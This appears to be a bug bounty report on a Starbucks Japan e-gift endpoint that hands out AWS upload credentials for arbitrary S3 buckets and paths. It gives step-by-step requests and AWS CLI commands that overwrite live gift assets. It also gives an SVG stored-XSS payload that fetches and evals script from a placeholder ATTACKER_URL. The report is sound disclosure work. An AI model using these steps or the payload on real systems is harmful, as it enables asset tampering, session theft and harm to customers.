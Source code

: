 ```yaml
---
title: Starbucks Japan 03/02/2025
created: "2025-02-02T15:19:04.993Z"
modified: "2025-02-03T05:21:39.329Z"
---
```


# Starbucks Japan 03/02/2025

## Stored XSS: Misconfigured endpoint allows generation of AWS creds for arbitrary file upload to user-specified S3 bucket and path

## Summary

- This vulnerability allows unauthenticated users to generate temporary AWS creds for arbitrary file upload to user-specified S3 bucket and path
- Existing assets at gift.starbucks.co.jp can be overwritten by the user and replaced with malicious files to engage a stored XSS attack against any customers visiting the site, for example, retrieving session IDs and other cookies to perform actions on behalf of other customers and/or accessing sensitive data (e.g. credit card info)
- Malicious files could also be uploaded to strategic bucket/filepath locations in the hopes of company employees/engineers with S3 access accidentally downloading and/or executing them
- The gift card service can also be interrupted by replacing the assets with empty/invalid files or otherwise offensive material

## Steps To Reproduce

- Any unauthenticated user can navigate to <https://www.starbucks.co.jp/group_egift/> and hit the `寄せ書きをつくる` button to generate a new group gift.

- The user can then select the option to upload their own image for the card design.

- This reveals the `/upload_token` endpoint as a POST request is fired off with a payload containing a hardcoded bucket `prd-sbj-egift-user-images-draft` and generated filepath (based off the group gift ID, I think), similar to the one below. This request only requires the `_session_id` cookie and `X-Csrf-Token` header which is why this can be leveraged without being logged into an account.

```
POST /upload_token HTTP/2
Host: gift.starbucks.co.jp
Cookie: _session_id=2970947...;
Content-Type: application/json;charset=utf-8
X-Csrf-Token: T1ZpeY+3eDlS2...

{
  "bucket_name": "prd-sbj-egift-user-images-draft",
  "filepath":"send_to/send_to-1738510879046....jpeg"
}
```

- The response contains the generated temporary AWS credentials with appropriate permissions to upload the image file to the specified bucket and path (obviously these creds have been truncated and are no longer valid).

```json
{
  "access_key_id": "ASIAXORN27VLT35SFYDM",
  "secret_access_key": "FBYwhuhZoxay4kZ...",
  "session_token": "IQoJb3JpZ2luX2VjEOj...",
  "upload_file_name": "send_to/send_to-1738510879046...jpeg"
}
```

- The bucket name and filepath parameters are seemingly not checked at all, making it possible to generate upload creds for any bucket and location that we choose. We can demonstrate this by replaying the upload token request and modifying the body as below.

```json
{
  "bucket_name": "prd-sbj-egift-user-images-draft",
  "filepath": "kryn3n/hacked.txt"
}
```

- Now lets see if we can use our AWS credentials to get authenticated on the command line. First we can export our creds and run a simple `whoami`.

```bash
export AWS_ACCESS_KEY_ID=ASIAXORN27VLT35SFYDM
export AWS_SECRET_ACCESS_KEY=FBYwhuhZoxay4kZ...
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEOj...

aws whoami
```

- Looks like we're authenticated as `sbj-egift-web`, nice!

```json
{
  "UserId": "512270990679:sbj-egift-web",
  "Account": "512270990679",
  "Arn": "arn:aws:sts::512270990679:federated-user/sbj-egift-web"
}
```

- Now lets upload our "malicious" 😉🏴‍☠️ file to the path we specified in our upload token request using the aws cli.

```bash
aws s3api put-object \
  --bucket "prd-sbj-egift-user-images-draft" \
  --key "hackerone/kryn3n/hacked.txt" \
  --body ./hacked.txt
```

- Looks like the file was uploaded without any complaints.

```json
{
  "Expiration": "expiry-date=\"Sat, 15 Mar 2025 00:00:00 GMT\", rule-id=\"user-upload-images-lifecycle-rule\"",
  "ETag": "\"9226b53bfe04b2aae262a6fdf26e9af5\"",
  "ServerSideEncryption": "AES256",
  "VersionId": "zDiSGKrV7v3h1NT_fPzfJLQVS3tNMJ3i"
}
```

- Let's see if we can curl our new file down.

```bash
curl prd-sbj-egift-user-images-draft.s3-ap-northeast-1.amazonaws.com/hackerone/kryn3n/hacked.txt \
  -H "Referer:https://gift.starbucks.co.jp/"
```

```
you've been hacked :) [kryn3n@wearehackerone.com]
```

- Great success! Let's see if there are any other existing buckets that we can target... Poking around a bit more, we can see another hardcoded bucket `e-gifts.s3.ap-northeast-1.amazonaws.com` which seems to hold all of the gift card design assets.
- Following the same procedure, we are able to request an upload token for this new bucket and a filepath matching an existing asset using the payload below.

```json
{
  "bucket_name": "e-gifts",
  "filepath": "eg_cover_design_assets/touka_intro_cheers_2/celebrate02_select_thumb-120x160.gif"
}
```

- Exporting the new credentials, we can perform another `put-object` to overwrite the existing asset.

```bash
aws s3api put-object \
  --bucket "e-gifts" \
  --key "eg_cover_design_assets/touka_intro_cheers_2/celebrate02_select_thumb-120x160.gif" \
  --body ./laptop_cat.gif
```

- Again, the file is uploaded without an issue and successfully overwrites the existing asset.

```json
{
  "ETag": "\"09a5bc4683984718afe9688bdecc9ce2\"",
  "ServerSideEncryption": "AES256"
}
```

## Impact

## Summary

- This is obviously a security risk as the gift card assets are loaded by anyone visiting the group gift creation page, which presents the opportunity of a stored XSS attack. With the ability to overwrite any of these assets with our own files we could potentially cause a script to run in another customer's browser/app to steal their session ID cookie and use that to perform actions against their account.

- An example of this could be overwriting one of the assets with a XML/SVG image containing an embedded malicious script as shown below. This way customers would not notice anything out of the ordinary when visiting the site as we could repurpose an existing SVG asset.

```xml
<xml>
    <text>
        hello
        <img
            src="1"
            onerror="fetch('ATTACKER_URL/script.js').then((a) => a.text().then((b) => eval(b)))"
            xmlns="http://www.w3.org/1999/xhtml"
        />
    </text>
</xml>
```

- Aside from the above, there is also the potential to generally disrupt the service by overwriting all assets with invalid or empty files and/or display offensive imagery, etc.
